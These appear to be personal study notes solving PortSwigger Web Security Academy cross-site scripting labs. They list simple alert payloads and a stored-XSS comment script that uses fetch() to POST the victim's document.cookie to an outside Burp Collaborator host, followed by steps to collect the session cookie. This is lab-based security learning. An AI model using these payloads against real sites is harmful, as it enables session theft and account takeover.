 # Portswigger
## Cross-site scripting (XSS)
- Cheat sheet
	- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
- Simple
	- `<script>alert(document.domain)</script> `
	- `<img src=1 onerror=alert(1)>`

### Reflected XSS into HTML context with nothing encoded
```bash

# This lab contains a simple [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search functionality.

# To solve the lab, perform a cross-site scripting attack that calls the 'alert' function.

Enter into the search prompt:

<script>alert(1)</script

```

### Exploiting cross-site scripting to steal cookies
```bash

# This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

#### To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

# Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the cookie.

Go to Burp -> Burp collaborator client -> Copy to clipboard
Click on "View post"
Enter comment:

<script>
fetch('https://hrc87qzjaj8kcumi1q2ob6vr6ic80x.oastify.com', {
method: 'POST',
mode: 'no-cors',
body: document.cookie
});
</script>

Name:

name

Email:

email@email.com

Go to: Burp Collaborator client
Click "Poll now"
Choose the HTTP response "Type" -> Request to Collaborator -> Copy the sesssion value
```
